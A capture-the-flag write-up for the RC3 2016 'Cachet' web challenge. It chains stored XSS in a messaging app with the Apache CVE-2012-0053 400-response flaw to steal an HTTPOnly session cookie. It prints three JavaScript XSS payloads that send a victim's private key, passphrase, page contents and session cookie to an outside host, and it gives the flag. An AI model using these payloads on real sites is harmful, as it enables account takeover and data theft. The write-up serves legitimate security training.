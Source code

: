 # Web 500 (Cachet)

# Scenario
We need you. Things have been crazy with all the leaks lately. Apparently somebody gave one of our clients a tip that Julian Assange has acquired some devastating data about the US government. Our client has asked us to get this data for them. They're saying they can sell this data and makes lots of money of off it or something. Doesn't matter, they're paying us as long as we can get the data for them. The only tip we have is that Julian has been using this new security and privacy focused messaging app called Cachet to communicate with the source of the leaked data. He's supposedly taken a liking to it and uses it pretty frequently. Our interns looked at it but haven't had any luck, so we need your expertise on this one.

# TL;DR solution

Get XSS on user julianassange via the enc-msg POST param when sending him a message. Use this XSS to get his private key and passphrase (julianassange reads all messages sent to him). Then use this XSS to read the read.php for julianassange, where you'll find a subject that mentions what his PIN is. Then the only possible way (at least i think) to read his message is to steal his session cookie, which is set to HTTPOnly. You can get it by forcing him to make a request to the dev site on port 8000 that results in a 400 response, b/c the dev site is running apache 2.2.21 which has [this](https://www.cvedetails.com/cve/CVE-2012-0053/) vuln, so the full HTTP request that caused the 400 resposne will be returned.

# More details

So as the scenario points out, Julian Assange is the target. If you go to the search page (find.php), you can enumerate all the valid uses by entering % into the field. User 3 is julianassange, which is the target. After exploring the site, one would eventually realize that one of the view vectors available are XSS. This is made possible when sending a message to another user. Since the encryption of the message happens client side, the message is sent encrypted already to the server. When viewing a message, the devs must have thought nobody could enter malicious HTML in the encrypted message so they didn't HTML encode it resulting in XSS on a user reading a message to them before decrypting it. The POST parameter to intercept and add your XSS payload to would be enc-msg, and this could be done by proxying your traffic through Burp Suite or similar tool. So here is a POC to get the first items required, the private key and passphrase:

```javascript
<script>
function decrypt_message() {
    var key = document.getElementById("privkey").value;
    var pass = document.getElementById("msg-subject").value;
    var oReq = new XMLHttpRequest();
    oReq.open("GET", "http://lukeis.sexy/?key=" + key + "?pass=" + pass);
    oReq.send();

    decryptMessage();
}
document.addEventListener('DOMContentLoaded', function() {
    document.getElementById("decrypt-button").onclick = decrypt_message;
}, false);
</script>
```

This POC overrides the functionality of the decrypt button so that my own function runs first to get data and send it to my server, then calls the original decrypt message so the user doesn't suspect anything (though this isn't needed). My function gets the private key and passphrase and uses an XMLHttpRequests (xhr) to send the data to a server that I own. Next, the PIN is required as well as some original message sent to julianassange. So poking around is the next option, which can be done by requesting the other pages and seeing what they have. This POC gets the read messages page:

```javascript
<script>
var oReq = new XMLHttpRequest();
oReq.onreadystatechange = function(){
if(oReq.readyState === XMLHttpRequest.DONE) {
    var xhr = new XMLHttpRequest();
    console.log(oReq.responseText);
    xhr.open("GET", "http://lukeis.sexy/?read=" + oReq.responseText);
    xhr.send();
}
};
oReq.open("GET", "/read.php");
oReq.send();
</script>
```

The astute reader will realize that there will be too much data in the URL to show up in regular access logs for the request to my server. However, I am lazy and didn't want to write this up using POST request which would have been effective at sending all the data. But seeing the results of the read page, one of the subject messages says that julianassange's PIN is his birthday. This is in the format of MMDDYYYY, so 03071971 for julianassange. At this point, many believed that they could use the XSS to CSRF the user and get the message that they received from the darkarmy account (as seen in the results of the read page). But that would be too easy. So the referer is checked to make sure the request came from the bot (which ran locally) and that it ended with messages.php?id=X, where X is the message ID trying to be read. This should prevent CSRF b/c you would have to force the user to go to the messages.php?id=X page and then XSS them from there. Without the referer check the CSRF would be possible, but with it there shouldn't be a way to perform CSRF successfully. Although people are crafty and may have come up with ways around this (some users claimed they bypassed it using iframes when testing against themselves). There was a twitter picture that showed a call to a function called referer_good(), which should have hinted that there was a referer check when reading messages. So then one possibility to read the message would be to get it from the database, but there were not any intentional SQL injections put into the app so this shouldn't have been a viable option. The way to read julianassange's messages was to get his session cookie (PHPSESSID). These cookies were good for up to 2 weeks. But the darn HTTPOnly flag was set on the cookies, so getting it via javascript in an XSS wouldn't work. Except, that's exactly how you would get this cookie. You just can't call document.cookie, there is a different way. The dev server was running on port 8000 and the Apache version was running 2.2.21, which has [this](https://www.cvedetails.com/cve/CVE-2012-0053/) vulnerability which returns the full request in the response when the response is a 400 error. So if you can figure out how to make a request to the dev server from julianassange that results in a 400 error you could get the cookie in the result to that request and send that off to your server. The /dev/ page on the main/prod site mentioned that security team wanted them to patch the server so they just moved it to dev, which was true and was the only valuable piece of information on the /dev/ page. The creds and command injections were just distractions. Another odd thing is that the dev site has 2 CORS headers set. Without these headers, the response from the dev server wouldn't be accessible via javascript. The "Access-Control-Allow-Credentials" header allows the cookie to be sent to the dev server, and the "Access-Control-Allow-Origin" header allows the response to be returned to the caller so it can read the response. So here's a POC to get the session cookie from julianassange:

```javascript
<script>
document.cookie = "test=" + Array(4000).join("A");
document.cookie = "test2=" + Array(4000).join("A");
document.cookie = "test3=" + Array(4000).join("A");
var oReq = new XMLHttpRequest();
oReq.onreadystatechange = function(){
if(oReq.readyState === XMLHttpRequest.DONE) {
    var xhr = new XMLHttpRequest();
    console.log(oReq.responseText);
    xhr.open("GET", "http://lukeis.sexy/?phpsessid=" + oReq.responseText);
    xhr.send();
    document.cookie = "test=B"; //so other requests aren't borked
    document.cookie = "test2=B";
    document.cookie = "test3=B";
}
};
oReq.open("GET", "http://54.172.225.153:8000");
oReq.withCredentials = true;
oReq.send();
</script>
```

With all this information, you can now login as julian assange by spoofing his PHPSESSID cookie. Then you go to the read messages page and click on the one from darkarmy. You enter the PIN which you figured out previously (03071971), then you enter the private key and passphrase and the message would be decrypted which contained the flag and a fun zip file with some bidenbro memes.

Flag: RC3-2016-12409901


There's some fun log data in the log_data directory from the competition. There's a lot and some of it looks a little ugly (mainly the database dumps), so just contact bigshebang (github issue would work fine, but you can probably find me elsewhere) for data in a different format if that's something you're interested in.
